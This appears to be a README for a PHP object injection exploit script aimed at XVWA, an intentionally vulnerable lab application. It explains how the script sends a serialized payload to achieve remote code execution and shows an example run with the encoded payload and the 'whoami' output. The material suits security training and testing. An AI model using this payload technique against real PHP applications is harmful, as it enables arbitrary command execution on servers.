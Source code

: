 # php_object_injection

This script is designed to exploit a flawed logic in the PHP `deserialize()` function. The application takes user input and echoes it back on the front-end without sanitization via the `home.php` from [XVWA](https://github.com/s4n7h0/xvwa/blob/master/vulnerabilities/php_object_injection/home.php). The script takes a PHP function as its first argument, serializes it with the `PHPObjectInjection` class, and sends a `GET` request to the victim's page to achieve Remote Code Execution. 

The script prints out the url-encoded payload that's sent to the victim's site before showing the response from the victim.

You need to add `;` at the end of your PHP code to avoid having an error in PHP `eval()` function. To execute commands you can pass `system('your_command');` to the script.

## Example of execution returning `www-data` as running user of web app:

```bash
$ php script.php "system('whoami');"

Serialized Payload: O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A17%3A%22system%28%27whoami%27%29%3B%22%3B%7D
## ...html code...
<div class="well">
    <p>
        <form method="get" action="">
            <div class="form-group">
                <div class="text-left">
                    <label></label>
                <div class="form-group" align="left"> 
                    <a class="btn btn-primary" href='?r=a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}' type="submit">CLICK HERE</a>
                </div>
                    www-data
     </div>
 </div>
## ...html code...
```
